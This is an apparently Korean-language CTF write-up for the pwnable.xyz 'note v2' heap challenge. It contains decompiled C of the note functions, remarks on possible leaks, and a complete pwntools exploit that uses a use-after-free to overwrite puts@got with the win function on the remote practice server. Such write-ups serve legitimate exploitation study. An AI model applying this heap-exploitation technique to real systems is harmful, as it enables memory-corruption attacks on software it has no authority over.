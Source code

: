 ```yaml
---
title: "[pwnable.xyz]note v2"
date: 2020-2-21
ctf: Pwnable.xyz
layout: post
published : false
---
```


size, title, note 입력받는데 title하고 note 따로 따로 malloc해준다.

```c
int make_note()
{
  _QWORD *v0; // rax
  int v1; // eax
  __int64 v2; // rcx
  int v4; // [rsp+4h] [rbp-Ch]
  void **buf; // [rsp+8h] [rbp-8h]

  if ( count <= 32 )
  {
    printf("size of note: ");
    v4 = read_int32();
    buf = (void **)malloc(40uLL);
    if ( !buf[4] )
      buf[4] = malloc(v4);
    printf("title: ");
    read(0, buf, 32uLL);
    printf("note: ", buf);
    read(0, buf[4], v4 - 1);
    v1 = count++;
    v2 = v1;
    v0 = book;
    book[v2] = buf;
  }
  else
  {
    LODWORD(v0) = puts("Limit reached.");
  }
  return (signed int)v0;
}
```

edit함수인데 make_note함수에서 입력한 길이만큼 바꿀 수 있다. 

```c
ssize_t edit_note()
{
  ssize_t result; // rax
  size_t v1; // rax
  ssize_t v2; // [rsp+8h] [rbp-8h]

  result = get_note();
  v2 = result;
  if ( result )
  {
    printf("Title %s: ", result);
    v1 = strlen(*(const char **)(v2 + 32));
    result = read(0, *(void **)(v2 + 32), v1);
  }
  return result;
}
```

delete함수는 note를 free해준다. 그리고 0으로 초기화해준다.

```c
_QWORD *delete_note()
{
  _QWORD *result; // rax
  int v1; // eax
  __int64 v2; // rdx

  result = (_QWORD *)get_note();
  if ( result )
  {
    free((void *)result[4]);
    v1 = count--;
    v2 = v1;
    result = book;
    book[v2] = 0LL;
  }
  return result;
}
```

title이랑 note 출력해준다.

```c
int print_note()
{
  __int64 v0; // rax

  v0 = get_note();
  if ( v0 )
    LODWORD(v0) = printf("%s : %s\n", v0, *(_QWORD *)(v0 + 32));
  return v0;
}
```

title은 free를 안해주고 note만 free해준다. 이게 32바이트 꽉채운 다음에 heap주소 저장된거 leak할 수 있긴한데 별로 쓸모 없다. 그리고 tcache unsorted bin attack으로 main_arena leak 가능하긴한데 이것도 별로 쓸모없다. 

그냥 간단하게 UAF 취약점이 터져서 puts@got를 win으로 덮어줬다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30030)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
count = 0x0000000000602264
book = 0x0000000000602280
win = e.symbols['win']

def quit():
	sa('>','0')

def make(size,title,note):
	sa('>','1')
	sa(':',str(size))
	sa(':',title)
	sa(':',note)

def edit(idx,note):
	sa('>','2')
	sa(':',str(idx))
	sa(':',note)

def delete(idx):
	sa('>','3')
	sa(':',str(idx))

def printf(idx):
	sa('>','4')
	sa(':',str(idx))

make(0x420,'A'*4,p64(e.got['puts'])*10)
make(32,'B'*4,'C'*4)
delete(0) # -> unsorted bin
make(0x420,'D'*8,p64(win))
sla('>','99999')

p.interactive()
```

